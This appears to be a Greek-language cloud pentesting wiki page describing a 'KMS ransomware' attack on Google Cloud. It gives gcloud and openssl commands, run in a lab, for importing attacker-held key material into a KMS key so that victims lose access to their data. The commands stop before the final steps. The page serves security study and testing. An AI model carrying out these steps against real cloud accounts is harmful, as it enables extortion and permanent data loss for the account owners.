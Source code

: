Στο AWS είναι δυνατό να **κλέψετε εντελώς ένα κλειδί KMS** τροποποιώντας την πολιτική πόρων KMS και επιτρέποντας μόνο στον λογαριασμό του επιτιθέμενου να χρησιμοποιεί το κλειδί. Δεδομένου ότι αυτές οι πολιτικές πόρων δεν υπάρχουν στο GCP, αυτό δεν είναι δυνατό.

Ωστόσο, υπάρχει ένας άλλος τρόπος να εκτελέσετε ένα παγκόσμιο KMS Ransomware, ο οποίος θα περιλάμβανε τα εξής βήματα:

* Δημιουργία μιας νέας **έκδοσης του κλειδιού με υλικό κλειδιού** που έχει εισαχθεί από τον επιτιθέμενο

{% code overflow="wrap" %}
```bash
gcloud kms import-jobs create [IMPORT_JOB] --location [LOCATION] --keyring [KEY_RING] --import-method [IMPORT_METHOD] --protection-level [PROTECTION_LEVEL] --target-key [KEY]
```
{% endcode %}

* Ορίστε το ως **προεπιλεγμένη έκδοση** (για μελλοντικά δεδομένα που θα κρυπτογραφηθούν)
* **Επανακρυπτογραφήστε παλαιότερα δεδομένα** που κρυπτογραφήθηκαν με την προηγούμενη έκδοση με τη νέα.
* **Διαγράψτε το κλειδί KMS**
* Τώρα μόνο ο επιτιθέμενος, που έχει το αρχικό υλικό κλειδιού, θα μπορούσε να αποκρυπτογραφήσει τα κρυπτογραφημένα δεδομένα

#### Εδώ είναι τα βήματα για την εισαγωγή μιας νέας έκδοσης και την απενεργοποίηση/διαγραφή των παλαιότερων δεδομένων:
```bash
# Encrypt something with the original key
echo "This is a sample text to encrypt" > /tmp/my-plaintext-file.txt
gcloud kms encrypt \
--location us-central1 \
--keyring kms-lab-2-keyring \
--key kms-lab-2-key \
--plaintext-file my-plaintext-file.txt \
--ciphertext-file my-encrypted-file.enc

# Decrypt it
gcloud kms decrypt \
--location us-central1 \
--keyring kms-lab-2-keyring \
--key kms-lab-2-key \
--ciphertext-file my-encrypted-file.enc \
--plaintext-file -


# Create an Import Job
gcloud kms import-jobs create my-import-job \
--location us-central1 \
--keyring kms-lab-2-keyring \
--import-method "rsa-oaep-3072-sha1-aes-256" \
--protection-level "software"

# Generate key material
openssl rand -out my-key-material.bin 32

# Import the Key Material (it's encrypted with an asymetrict key of the import job previous to be sent)
gcloud kms keys versions import \
--import-job my-import-job \
--location us-central1 \
--keyring kms-lab-2-keyring \
--key kms-lab-2-key \
--algorithm "google-symmetric-encryption" \
--target-key-file my-key-material.bin

# Get versions
```